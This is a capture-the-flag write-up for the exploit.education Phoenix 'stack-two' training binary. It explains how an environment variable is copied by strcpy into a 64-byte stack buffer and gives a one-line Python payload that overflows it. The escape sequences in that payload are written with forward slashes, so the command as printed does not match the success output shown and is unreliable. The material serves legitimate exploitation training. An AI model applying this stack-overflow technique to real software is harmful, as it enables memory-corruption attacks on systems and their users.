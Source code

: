 ```yaml
---
layout: post
title: "exploit.education Phoenix - Stack 0x2"
category: CTF 
tagline:
tags: [binary, exploitation, phoenix, wargame, ctf, learning]
---
```

{% include JB/setup %}

# Stack 2

Write-up for: [https://exploit.education/phoenix/stack-two/][Stack Two]

<!--more-->

Running the binary reveals that we need to change an environment variable

```
user@phoenix-amd64:/opt/phoenix/i486$ ./stack-two
Welcome to phoenix/stack-two, brought to you by https://exploit.education
stack-two: please set the ExploitEducation environment variable
```

After setting the variable, the output changes

```
export ExploitEducation=AAAA
user@phoenix-amd64:/opt/phoenix/i486$ ./stack-two
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Almost! changeme is currently 0x00000000, we want 0x0d0a090a
```

Looking at the disassembly of the main function we can see where the
environment variable is stored:

```
0x0804856e      e8edfdffff     call sym.imp.getenv        ; char *getenv(const char *name);
|           0x08048573      83c410         add esp, 0x10
|           0x08048576      8945f4         mov dword [ebp - local_ch], eax

```

`[ebp - local_ch]` which is at ebp - 0x0C.

This variable is later used in an unsafe call to strcpy where the content of the environment
variable is copied to ebp - local_50h or ebp-0x50. For the success check, the value at ebp - 0x10
is compared to 0xd0a090a. We need a way to write to ebp - 0x10.

The buffer size is 64 bytes. Thus we need to write 64 bytes + the 4 required bytes.

# Exploit

```
user@phoenix-amd64:/opt/phoenix/i486$ export ExploitEducation=`python -c 'print "A"*64 + "/x0a/x09/x0a/x0d"'`         
user@phoenix-amd64:/opt/phoenix/i486$ ./stack-two
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```
